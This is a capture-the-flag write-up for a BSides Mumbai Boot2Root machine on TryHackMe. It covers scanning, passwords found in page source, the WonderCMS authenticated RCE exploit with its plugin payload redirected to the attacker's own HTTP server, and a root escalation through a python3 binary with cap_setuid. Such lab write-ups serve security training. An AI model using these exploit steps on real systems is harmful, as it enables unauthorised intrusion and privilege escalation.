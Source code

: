 # Boot2Root - 1 [5 solves] [493 points]

### Description
```
Fire the instance and start hacking
Instance - 1: https://tryhackme.com/jr/bsidesmumbaictfb1
Note : Brute forcing is not required.
```

### Nmap scan : 
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bc:2f:ed:d9:08:4d:e4:49:6b:26:f5:5b:30:11:2a:86 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdRsqsqN+sfAzzp5P6haGXAhpE1ssJl4fTTNWBAJbuzwQ/SsfCxPtjEYt2Rgl51lWQSZAlaltWzW7fEmYWIw5MmvhiBgt0yFQICWFLwxB6vQGPWuZqLuLH3ymQeMikMYAkW5n9Mo7ieTyQoWNwrec1+TeaqlIxCIRUEriHYEplK56OFHLOZstotMTutyety7c3dyPWQz2sRCbYvvhH1b+irNcbD6hMAeQIU0Mo3RCPdRE/lFF2gasPJgyJoRBefLP69lbgfmx2Qcz4M1KfrxcO+EVjAUcUTojYTstXD0tC1NQOoqIct6a4bzko4ZI5UZT7TltetcgvTfoJ4ymN13wX
|   256 16:5d:0a:c6:a1:2c:be:89:d7:97:02:41:20:c8:99:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJNtZv0HFaOG2mHqXan5B8Jc3KIalvZE6KoZDX0op4KtdSVG03Z6ut+cQB12FE01VN2t68FlK6NIm4WflaHAs=
|   256 5d:fb:dd:2e:d2:0a:c7:5a:c4:f6:26:96:8a:f4:23:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/GuW+HEMd3QKuGoX3glrZp/YfIuHxj9NfO6Z0NO9Kw
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Website title - Home
8081/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tale SEO Agency CSS Template by TemplateMo website
```

### Foothold :

Port 80's web server contains a password :
```
# curl -i 10.10.216.229
HTTP/1.0 200 OK
...
		<section class="container mt-5 mb-5">
			<div class="row">
				<div class="col-lg-12 my-auto text-center padding40">
					<h1>It's alive!</h1>

<h4><a href="http://192.168.220.133/wondercms/loginURL">Click here to login.</a> Your password is: <b>43aNXqKv</b></a></h4>
				</div>
			</div>
...
```

However thats invalid, but port 8081 contains a password as well :
```
# curl -i 10.10.216.229:8081
HTTP/1.1 200 OK
...
  <footer>
    <div class="container">
      <div class="col-lg-12">
        <p>Copyright © 2036 <a href="#">Tale SEO Agency</a>. All rights reserved. 
        
        <br>Design: <a href="https://templatemo.com/hey_you?pass=VG@Jh76ngt@34f" target="_blank">TemplateMo</a></p>
      </div>
    </div>
  </footer>
...
```

Port 80's web server is running a version of WonderCMS which is vulnerable to an authenticated RCE : https://www.exploit-db.com/exploits/49155

However the exploit didn't work directly

By reading the code I found out that it's passing a github URL directly, but the machine is likely not having internet access : 
```
payload = "https://github.com/zetc0de/wonderplugin/archive/master.zip"
```

Just download that zip and host it on our machine with a HTTP server, and change that payload to a link to the zip file on our HTTP server :
```
payload = "http://10.4.9.186/master.zip"
```

Then the exploit worked :
```
# python3 49155.py http://10.10.216.229/loginURL VG@Jh76ngt@34f


\ \      /_ \  \ | _ \ __| _ \  __|  \  |  __|
 \ \ \  /(   |.  | |  |_|    / (    |\/ |\__   \_/\_/\___/_|\_|___/___|_|_\___|_|  _|____/

------[ Auth Remote Code Execution ]------
	
[+] Getting Token
[+] Sending Payload
[+] Get the shell
[+] Enjoy!
$ls
README.md
css
evil.php
preview.jpg
summary
version
wonderplugin.php
```

Then just get a true reverse shell for convenience, instead of using the exploit script

### Privesc : 

There's a python3 binary on bob's home directory

```
(remote) www-data@ubuntu:/home/bob$ ls -la
total 4392
drwxr-xr-x 4 bob  bob     4096 Dec 10 04:39 .
drwxr-xr-x 3 root root    4096 Dec  9 10:44 ..
-rw------- 1 bob  bob       52 Dec 10 04:39 .Xauthority
-rw------- 1 bob  bob        5 Dec  9 20:55 .bash_history
-rw-r--r-- 1 bob  bob      220 Dec  9 10:44 .bash_logout
-rw-r--r-- 1 bob  bob     3771 Dec  9 10:44 .bashrc
drwx------ 2 bob  bob     4096 Dec  9 10:49 .cache
drwx------ 2 bob  bob     4096 Dec  9 12:27 .gnupg
-rw-r--r-- 1 bob  bob      675 Dec  9 10:44 .profile
-rw-r--r-- 1 bob  bob        0 Dec  9 10:49 .sudo_as_admin_successful
-rw-rw-r-- 1 bob  bob      182 Dec  9 12:27 .wget-hsts
-rwxr-xr-x 1 root root 4456208 Dec  9 12:34 python3
```

Also, it has the setuid capability :
```
/home/bob/python3 = cap_setuid+ep
```

Just run that python3 binary and setuid to 0 and get a shell with it, then just read the flag : 
```
(remote) www-data@ubuntu:/home/bob$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
(remote) root@ubuntu:/home/bob# cd /root
(remote) root@ubuntu:/root# ls
root.txt
(remote) root@ubuntu:/root# cat root.txt
BSMumbai{S0rry_Friend0_Th1s_iz_end0}
```